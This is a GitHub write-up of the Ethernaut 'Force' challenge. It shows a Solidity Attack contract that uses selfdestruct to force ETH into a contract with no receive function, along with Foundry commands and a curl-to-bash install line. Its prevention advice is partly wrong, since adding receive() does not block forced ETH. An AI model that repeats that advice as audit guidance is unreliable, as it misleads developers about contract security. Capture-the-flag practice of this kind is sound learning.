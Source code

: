 # Ethernaut Level: Force - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Force** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/force/`) contains everything related to it.

**Goal:** Make the contract's ETH balance greater than zero, despite it not accepting funds normally.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 21, 2025 (Day 8).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This is an empty contract with no functions, no payable modifiers, and no fallback or receive—standard ETH transfers revert, preventing normal deposits.

**Key Code Snippet (from src/Force.sol):**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {
    // Empty—no payable, no fallback, no receive. Can't receive ETH normally!
}
```

## Vulnerability Analysis
**Main Issue: Lack of ETH Reception Mechanism (Bypassable via Selfdestruct)**  
- Without a fallback or receive, the contract rejects ETH via `transfer` or `send`. However, EVM's `selfdestruct` opcode forces ETH to any address, bypassing reception checks (deprecated in ^0.8.18 but exploitable here).  
- **Security Impact:** Unintended ETH deposits can lead to locked funds or DoS. In audits, flag contracts without explicit ETH handling.  
- **Audit Tip:** Always include `receive() external payable {}` for ETH reception. Use tools like Slither to detect missing fallbacks (`slither . --detect missing-receive`).

**Example:** Deploy an Attack contract with ETH, then selfdestruct targeting Force—ETH is force-sent, balance >0.

## Solution Steps
The attack: Deploy an "Attack" contract with ETH, then call `selfdestruct` to send its balance to Force.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/ForceSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check contract balance >0 on Etherscan, submit on Ethernaut site.

**Key Attack Code Snippet (from src/Attack.sol and script/ForceSolution.s.sol):**
```solidity
// Attack Contract (src/Attack.sol)
contract Attack {
    address public target;

    constructor(address _target) payable {
        target = _target;
    }

    function attack() public {
        selfdestruct(payable(target));  // Force-send ETH to target
    }
}

// Script (script/ForceSolution.s.sol excerpt)
Attack attacker = new Attack{value: 0.1 ether}(address(forceInstance));
attacker.attack();  // Selfdestruct sends ETH
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates selfdestruct and balance increase.
- **Testnet Output Example:** Console log: "Initial Balance: 0", "Final Balance: 100000000000000000" (0.1 ETH in wei).

## Key Learnings
- **Auditing Skill:** Review for ETH handling gaps—selfdestruct can surprise; test with forced sends.
- **EVM Concept:** Selfdestruct destroys a contract and transfers its ETH, ignoring fallbacks.
- **Prevention:** Add `receive() external payable {}`; consider post-Shanghai selfdestruct removal.
- **Next Step:** Verify balance via Etherscan API in script for automation.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/force`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/ForceSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Vault. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)